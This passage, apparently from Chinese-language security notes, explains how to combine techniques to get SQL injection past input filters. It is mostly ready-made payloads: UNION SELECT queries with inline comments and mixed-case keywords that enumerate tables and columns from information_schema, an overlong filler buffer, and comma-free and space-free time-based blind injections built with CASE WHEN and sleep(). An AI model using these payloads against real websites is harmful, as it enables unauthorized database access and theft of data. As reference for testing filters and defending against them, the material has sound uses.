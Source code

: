 整合的意思是结合使用前面谈到的各种绕过技术，单一的技术可能无法绕过过滤机制，但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说是总体与局部和的关系，另一方面则是多种技术的使用创造了更多的可能性，除非每一种技术单独都无法使用，否则它们能产生比自身大得多的能量。

举例：
z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…

id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -

?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--

不能用逗号需要变为
CASE WHEN (1=1) THEN (sleep(5)) ELSE (2) END
但空格也被过滤了，需要用括号代替空格（/*!*/ 空格 tab %a0 %0d%0a均被过滤了）
(CASE WHEN(1=1)THEN(sleep(1))ELSE(1)END);
admin'+1+' (false,注意把+换为%2b)
admin'+0+' (true,注意把+换为%2b)
